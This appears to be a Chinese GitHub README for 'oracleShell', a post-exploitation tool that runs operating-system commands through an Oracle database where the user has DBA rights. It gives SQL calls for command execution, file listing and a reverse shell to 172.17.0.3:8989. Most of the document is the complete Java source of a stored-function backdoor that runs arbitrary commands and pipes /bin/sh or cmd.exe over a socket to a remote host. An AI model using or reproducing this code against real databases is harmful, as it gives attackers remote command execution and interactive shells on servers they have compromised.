



# oracleShell oracle 数据库命令执行





### 测试环境-DBA权限：

`SELECT * FROM v$version`

```
Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - Production
PL/SQL Release 11.2.0.1.0 - Production
"CORE	11.2.0.1.0	Production"
TNS for 32-bit Windows: Version 11.2.0.1.0 - Production
NLSRTL Version 11.2.0.1.0 - Production
```

Function
=======

```
命令执行
select run('exec','whoami','UTF-8') from dual;
文件管理
select run('list','/usr','UTF-8') from dual;
获取当前路径
select run('getCurrentDir','','UTF-8') from dual;
反弹shell
select run('connectBack','172.17.0.3^8989','UTF-8') from dual;

```



Shell.java
==========

```
import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.Socket;
import java.util.Date;

public class Shell extends Object {
    public static String run(String methodName, String params, String encoding) {
        String result = "";
        if (methodName.equalsIgnoreCase("exec")) {
            result = Shell.exec(params, encoding);
        } else if (methodName.equalsIgnoreCase("list")) {
            result = Shell.list(params, encoding);
        } else if (methodName.equalsIgnoreCase("getCurrentDir")) {
            result = Shell.getCurrentDir();
        } else if (methodName.equalsIgnoreCase("connectBack")) {
            String ip = params.substring(0, params.indexOf("^"));
            String port = params.substring(params.indexOf("^") + 1);
            result = Shell.connectBack(ip, Integer.parseInt(port));
        } else {
            result = "unkown methodName";
        }
        return result;
    }

    public static String exec(String cmd, String encoding) {
        String result = "";
        if (encoding == null || encoding.equals("")) {
            encoding = "utf-8";
        }
        Process p;
        try {
            p = Runtime.getRuntime().exec(cmd);
            try {
                p.waitFor();
            } catch (InterruptedException e) {
                result += e.getMessage();
                e.printStackTrace();
            }
            InputStream fis;
            if (p.exitValue() == 0) fis = p.getInputStream();
            else fis = p.getErrorStream();
            InputStreamReader isr = new InputStreamReader(fis);
            BufferedReader br = new BufferedReader(isr);
            String line = null;
            while ((line = br.readLine()) != null) {
                result += line + "\n";
            }
        } catch (IOException e) {
            result += e.getMessage();
        }
        return result;
    }

    public static String list(String path, String encoding) {
        String result = "";
        if (encoding == null || encoding.equals("")) {
            encoding = "utf-8";
        }
        File file = new File(path);
        File[] items = file.listFiles();
        for (int i = 0; i < items.length; i++) {
            File item = items[i];
            String type = item.isDirectory() ? "<DIR>" : " ";
            String size = item.isDirectory() ? " " : item.length() / 1024 + "KB";
            if (size.equals("0KB")) size = item.length() + "Byte";
            String date = new Date(item.lastModified()).toLocaleString();
            result += date + " " + type + " " + size + " " + item.getName() + "\n";
        }
        return result;
    }

    public static String getCurrentDir() {
        String result = "";
        File directory = new File("");
        try {
            result = directory.getAbsolutePath();
        } catch (Exception e) {
        }
        return result;
    }

    public static String connectBack(String ip, int port) {
        class StreamConnector extends Thread {
            InputStream sp;
            OutputStream gh;

            StreamConnector(InputStream sp, OutputStream gh) {
                this.sp = sp;
                this.gh = gh;
            }

            public void run() {
                BufferedReader xp = null;
                BufferedWriter ydg = null;
                try {
                    xp = new BufferedReader(new InputStreamReader(this.sp));
                    ydg = new BufferedWriter(new OutputStreamWriter(this.gh));
                    char buffer[] = new char[8192];
                    int length;
                    while ((length = xp.read(buffer, 0, buffer.length)) > 0) {
                        ydg.write(buffer, 0, length);
                        ydg.flush();
                    }
                } catch (Exception e) {
                }
                try {
                    if (xp != null) xp.close();
                    if (ydg != null) ydg.close();
                } catch (Exception e) {
                }
            }
        }
        try {
            String ShellPath;
            if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
                ShellPath = new String("/bin/sh");
            } else {
                ShellPath = new String("cmd.exe");
            }
            Socket socket = new Socket(ip, port);
            Process process = Runtime.getRuntime().exec(ShellPath);
            (new StreamConnector(process.getInputStream(), socket.getOutputStream())).start();
            (new StreamConnector(socket.getInputStream(), process.getOutputStream())).start();
        } catch (Exception e) {
        }
        return "^OK^";
    }
}
```


### 参考链接：

rebeyond-oracleShell.jar


